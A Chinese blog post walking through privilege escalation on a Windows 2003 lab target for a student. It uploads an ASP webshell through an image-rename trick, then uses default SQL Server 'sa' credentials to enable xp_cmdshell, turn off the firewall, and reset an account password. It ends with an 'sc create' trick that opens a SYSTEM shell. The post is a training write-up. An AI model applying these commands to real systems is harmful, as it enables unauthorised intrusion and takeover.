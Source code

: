 ```yaml
---
layout: post
title: "给某个伙伴展示一次渗透提权"
date: "2022-10-01T14:21:31.719Z"
---
```

给某个伙伴展示一次渗透提权
=============

某个正在学习安全伙伴告诉我，他老师给他一个靶机让他提权，他不知道怎么下手，让我来试一下，那就试一下

 ![](https://img2022.cnblogs.com/blog/1551458/202210/1551458-20221001193800792-409006354.png)

知道网段ip没开机密码，他说这个靶机是这样的。

固定ip是 192.168.3.5

是个win2003r2的系统

那就先把虚拟机配置一下

 ![](https://img2022.cnblogs.com/blog/1551458/202210/1551458-20221001193845563-440404699.png)

加一个192.168.3.0网段的网络

把第一个网络适配器添加上VMnet2这个网络

![](https://img2022.cnblogs.com/blog/1551458/202210/1551458-20221001193859068-1168207114.png)

然后在我的kali虚拟机上也添加VMnet2网卡

开机ifconfig看看

 ![](https://img2022.cnblogs.com/blog/1551458/202210/1551458-20221001193910580-1825661901.png)

添加上了

然后ping一下看能不能ping通

 ![](https://img2022.cnblogs.com/blog/1551458/202210/1551458-20221001193925009-2126590401.png)

 能通

用nmap简单扫下服务和端口

好多开放端口

有23端口但是没密码

有445端口用msf搞了一波似乎不行，可能打了补丁

 ![](https://img2022.cnblogs.com/blog/1551458/202210/1551458-20221001193943700-1814829182.png)

上面有好几个站点， 随便选一个默认密码就进后台了

![](https://img2022.cnblogs.com/blog/1551458/202210/1551458-20221001193955279-203619044.png)

 

剩下直接拿shell行了

直接传一张图片马，他后台有个文件改名

 ![](https://img2022.cnblogs.com/blog/1551458/202210/1551458-20221001194006729-1060156555.png)

通过抓包把文件类型改了，改成图片里面一句话马的执行类型，这个站是asp站，我传的是asp马，所以改的也是asp

ok

链接了上来

![](https://img2022.cnblogs.com/blog/1551458/202210/1551458-20221001194021660-431349588.png)

传了个msf马上来执行不了，没有权限

![](https://img2022.cnblogs.com/blog/1551458/202210/1551458-20221001194045227-1613238858.png)

提权

尝试通过mssql数据库提权方法

在里面的代码文件找出数据库账号密码

 ![](https://img2022.cnblogs.com/blog/1551458/202210/1551458-20221001194110680-1856757798.png)

账号:sa

密码：admin

看能不能链接

连上了

 ![](https://img2022.cnblogs.com/blog/1551458/202210/1551458-20221001192508013-1353329121.png)

用 exec xp\_cmdshell 执行命令

exec sp\_configure 'show advanced options',1;

RECONFIGURE;

exec sp\_configure 'xp\_cmdshell',1;

RECONFIGURE;

 ![](https://img2022.cnblogs.com/blog/1551458/202210/1551458-20221001194135822-2099928954.png)

exec xp\_cmdshell 'netsh advfirewall set allprofiles state off';

关闭防火墙

exec xp\_cmdshell 'net user';

查看用户

![](https://img2022.cnblogs.com/blog/1551458/202210/1551458-20221001194156261-545284086.png)

把账户密码改了

 ![](https://img2022.cnblogs.com/blog/1551458/202210/1551458-20221001194220552-25778009.png)

这下能登录进去了

![](https://img2022.cnblogs.com/blog/1551458/202210/1551458-20221001194423994-325876564.png)

只是administration权限，我需要最高的system权限

![](https://img2022.cnblogs.com/blog/1551458/202210/1551458-20221001194240383-1097226162.png)

用SC提权方法

sc提权只适合老系统，xp win7 2003这些，其他系统有其他方法

sc Create sys binPath="cmd / c start" type= own type= interact

sc start sys  

虽然提示失败1053 但是最高权限system窗口弹出来了

 ![](https://img2022.cnblogs.com/blog/1551458/202210/1551458-20221001192907157-652201046.png)

![](https://img2022.cnblogs.com/blog/1551458/202210/1551458-20221001194350979-1188203361.png)